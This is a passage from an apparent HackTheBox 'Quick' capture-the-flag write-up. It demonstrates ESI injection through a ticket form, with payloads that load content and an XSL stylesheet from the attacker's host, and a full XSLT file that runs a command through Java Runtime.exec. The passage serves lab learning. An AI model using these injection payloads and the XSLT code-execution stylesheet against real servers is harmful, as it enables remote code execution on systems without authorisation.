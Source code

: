 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:48:20.png)

When we try to start apache2 we got errors, the solution is [here](https://ycsoftware.net/invalid-command-requestheader-perhaps-misspelled-or-defined-by-a-module/)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:50:05.png)

Now we start apache and see the last lines of the log, to see in real time the server trying to reach it

```sh
tail -f /var/log/apache2/access.log | cut -d' ' -f-9
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:51:00.png)

Now I send the ticket

```
title=test&msg=test&id=TKT-3333<esi:include src="http://10.10.14.20/poc.html" />
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:52:45.png)

And the response get back on my apache2 server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:53:06.png)

It's working!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:53:34.png)

Now, let's hunt RCE

### XSLT to RCE POC

According to the post, the tag we need to use is this

```
<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/esi.xsl"> </esi:include>
```

esi.xsl contains Java to run a command. I'll ping and listen with tcpdump:

esi.xsl

```xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ping -c 5 10.10.14.20]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
